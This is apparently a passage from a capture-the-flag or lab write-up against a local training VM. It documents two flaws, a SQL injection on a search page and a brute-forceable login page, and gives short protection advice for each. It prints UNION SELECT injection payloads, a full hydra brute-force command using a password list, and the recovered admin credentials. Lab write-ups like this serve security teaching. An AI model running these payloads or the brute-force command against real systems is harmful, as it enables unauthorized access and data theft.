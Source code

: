 ## Vulnerability

Same as **sql_injection_member** but on the page <http://192.168.56.105/?page=searchimg>.

1.  5 UNION SELECT table_schema,table_name FROM information_schema.columns
2.  5 UNION SELECT table_name,column_name FROM information_schema.columns
3.  5 UNION SELECT title,comment FROM list_images
4.  `echo -n 'albatroz' | sha2`


<a id="org1e600fe"></a>

## Protection

Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.


<a id="org282b0e1"></a>

# bruteforce_login_page


<a id="orge11f7dc"></a>

## Vulnerability

There is a login page, <http://192.168.56.103/index.php?page=signin>. We does not know any creds so we can bruteforce it.

1.  `hydra -l admin -P /usr/share/SecLists/Passwords/Common-Credentials/top-passwords-shortlist.txt '192.168.56.103' http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif' -I -F` We try each password in the file.txt for the username admin until the response does not containt &rsquo;WrongAnswer.gif&rsquo;.
    1.  log-in as admin:shadow


<a id="orgc4ac851"></a>

## Protection

Use strict policy for passwords ! Also, block the ip address who make too many requests.

